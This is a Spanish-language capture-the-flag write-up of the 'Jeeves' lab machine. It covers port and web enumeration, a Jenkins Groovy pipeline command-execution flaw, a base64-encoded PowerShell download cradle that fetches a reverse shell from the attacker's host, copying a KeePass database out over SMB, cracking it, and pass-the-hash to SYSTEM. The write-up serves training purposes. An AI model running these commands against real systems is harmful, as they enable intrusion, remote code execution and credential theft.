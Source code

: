 ```yaml
---
title: 'CTF - Jeeves WriteUp'
date: '2022-02-12'
tags: ["CTF", "Windows", "PassTheHash", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: 'Reto CTF que consiste en buscar vulnerabilidades en una máquina Windows. Se exploran puertos, se encuentra una vulnerabilidad en Jenkins y se logra obtener acceso de administrador. La flag se encuentra en un stream de datos oculto.'
images: ["/static/images/uploads/ctf-jeeves/Jeeves.webp", "/static/images/uploads/ctf-jeeves/image-17.webp", "/static/images/uploads/ctf-jeeves/image-18.webp", "/static/images/uploads/ctf-jeeves/image-19.webp", "/static/images/uploads/ctf-jeeves/image-20.webp", "/static/images/uploads/ctf-jeeves/image-21.webp", "/static/images/uploads/ctf-jeeves/image-22.webp"]
---
```


![](/static/images/uploads/ctf-jeeves/Jeeves.webp)

Escaneamos puertos con NMAP y ejecutamos un análisis más exhaustivo sobre los puertos abiertos. Omitiré la información no relevante.


```
nmap -p80,135,445,50000 -vvv -sCV -n -Pn 10.10.10.63 -oG targeted
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-02-12T22:04:41
|_  start_date: 2022-02-12T21:50:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
Lo primero que observamos es que la firma de smb no es necesaria. A continuación, lo validamos con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
```
Estamos ante una máquina Win10 x64 y SMB no está firmado. Esto lo hace potencialmente vulnerable a un ataque de tipo PassTheHash. Continuamos investigando. Entrando en la web y aparece la siguiente imagen.

![](/static/images/uploads/ctf-jeeves/image-17.webp)

Cuando buscas algo, siempre sale la misma ventana de error que no es un error como tal, es un archivo png. No parece que se esté ejecutando nada.

Aplico Fuzzing contra el puerto 80 y el puerto 50000. En este segundo puerto, parece que encuentro una ruta disponible en */askjeeves*.


```
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://10.10.10.63:50000/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://10.10.10.63:50000/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================
000041607:   302        0 L      0 W        0 Ch        "askjeeves"
```
Accedo a la URL y encuentro un Jenkins de v2.87.

![](/static/images/uploads/ctf-jeeves/image-18.webp)

Encontramos una [vulnerabilidad](https://cxsecurity.com/issue/WLB-2019020120) con el pipeline de Jenkins para esa versión. Hacemos una prueba rápida colocando un comando en la ventana de configuración del pipeline.

![](/static/images/uploads/ctf-jeeves/image-19.webp)

*Es importante seleccionar el Sandbox de Groovy que es quien tiene la vulnerabilidad*.

Ponemos en escucha *tcpdump* y vemos si hay respuesta cuando ejecutamos el pipeline.

![](/static/images/uploads/ctf-jeeves/image-20.webp)

Se acontece la vulnerabilidad. Modificamos el script de arriba para que nos entable una reverse shell.

Para ello, vamos a enviar a la consola de Powershell un código codificado en base64. El código en cuestión es el siguiente.


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')
```
Esto descargará un script desde nuestro equipo y lo ejecutará en el entorno remoto. Dicho script contiene una reverse shell descargada del repositorio de [Nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) que modificaremos a nuestro gusto.

La forma de codificarlo a base64 pasa por cambiar el encoding a UTF-16LE si queremos tener en consideración a [Microsoft](https://docs.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_character_encoding?view=powershell-7.2). De lo contrario, probablemente no podrá ejecutar nuestro comando.


> En general, Windows PowerShell tiene configurada la codificación UNICODE [UTF-16LE](https://wikipedia.org/wiki/UTF-16) de forma predeterminada.

Para ello, ejecutamos el siguiente código.


```
❯ echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')"data
❯ cat data | iconv -t utf-16le | xxd
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
00000030: 6900 6500 6e00 7400 2900 2e00 6400 6f00  i.e.n.t.)...d.o.
00000040: 7700 6e00 6c00 6f00 6100 6400 5300 7400  w.n.l.o.a.d.S.t.
00000050: 7200 6900 6e00 6700 2800 2700 6800 7400  r.i.n.g.(.'.h.t.
00000060: 7400 7000 3a00 2f00 2f00 3100 3000 2e00  t.p.:././.1.0...
00000070: 3100 3000 2e00 3100 3400 2e00 3200 3100  1.0...1.4...2.1.
00000080: 2f00 5000 5300 2e00 7000 7300 3100 2700  /.P.S...p.s.1.'.
00000090: 2900 0a00                                )...
❯ cat data | iconv -t utf-16le | base64 -w0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA==powershell
```
Copiamos el código final en base64 y lo adjuntamos a nuestro exploit del pipeline de Jenkins.


```
node {
   powershell 'powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA=='
}
```
Ponemos un servidor en nuestro equipo que acepte la descarga del script y en otra ventana netcat en escucha en el puerto 443.

Ejecutamos el pipeline en Jenkins.

![](/static/images/uploads/ctf-jeeves/image-21.webp)

Recibimos la consola de nuestro lado.


```
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.63] 49685
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\test whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\test cat C:\Users\kohsuke\Desktop\user.txt    
e323xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la primera flag y continuamos con el escalado de privilegios.

En la carpeta documentos del usuario, descubrimos un archivo kdbx. Esta extensión pertenece a [KeePass](https://www.file-extension.info/es/format/kdbx).


```
PS C:\Users\kohsuke\Documentsls
CEH.kdbx
```
Para descargarnos el archivo a nuestro equipo, montamos un servidor samba.


```
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```
Y nos copiamos el archivo directamente en nuestro equipo.


```
PS C:\Users\kohsuke\Documentscopy CEH.kdbx \\10.10.14.21\smbFolder\CEH.kdbx
```
Primero obtenemos el hash de la contraseña con *keepass2john*, ejecutamos *[John The Ripper](https://www.openwall.com/john/)* con el diccionario [Rockyou](https://www.quora.com/How-many-passwords-are-in-rockyou-txt#:~:text=The%20rockyou.txt%20that%20comes,2020.2a%20contains%2014%2C442%2C063%20words.) que contiene más de 14 millones de las contraseñas más utilizadas y mostramos los resultados.


```
❯ keepass2john CEH.kdbx  hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
❯ john -show hash
CEH:mooxxxxx
```
Parece que los resultados han sido positivos. Usamos la contraseña para abrir el archivo *kdbx* en un cliente de KeePass como [KeePassXC](https://keepassxc.org/).

![](/static/images/uploads/ctf-jeeves/image-22.webp)

La entrada seleccionada en la imagen contiene una contraseña que parece ser un hash [NTLM](https://security.stackexchange.com/questions/161889/understanding-windows-local-password-hashes-ntlm) del usuario administrador. Validamos el hash con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63 -u "Administrator" -H "e0fbxxxxxxxxxxxxxxxxxxx"
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator e0fbxxxxxxxxxxxxxxxx (Pwn3d!)
```
**Como aparece la palabra (Pwn3d!), confirmamos que el hash es correcto.**

A continuación, ejecutamos *psexec.py* para entablar una shell.


```
❯ psexec.py WORKGROUP/administrator@10.10.10.63 -hashes :e0fbxxxxxxxxxxxxxxxxxxxxxx
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32 whoami
nt authority\system
```
Estamos dentro como usuario Administrator y buscamos la flag.

En el escritorio encontramos un archivo que nos dice que lo que buscamos está en algún otro sitio más profundo.


```
C:\Users\Administrator\Desktop type hm.txt
The flag is elsewhere.  Look deeper.
```
NTFS tiene la posibilidad de almacenar la información en distintos streams de datos. Se puede encontrar más información [aquí](https://www.deepinstinct.com/blog/the-abuse-of-alternate-data-stream-hasnt-disappeared). Para enumerar todos los archivos/streams de archivos se emplea el parámetro /r.

Después, invocamos el comando [more](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/more) de Powershell para ver el siguiente stream de información. 


```
C:\Users\Administrator\Desktop dir /r
 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM     .
11/08/2017 09:05 AM  ..
12/24/2017 02:51 AM 36 hm.txt
 34 hm.txt:root.txt:$DATA

C:\Users\Administrator\Desktop more  hm.txt:root.txt
afbcxxxxxxxxxxxxxx
```
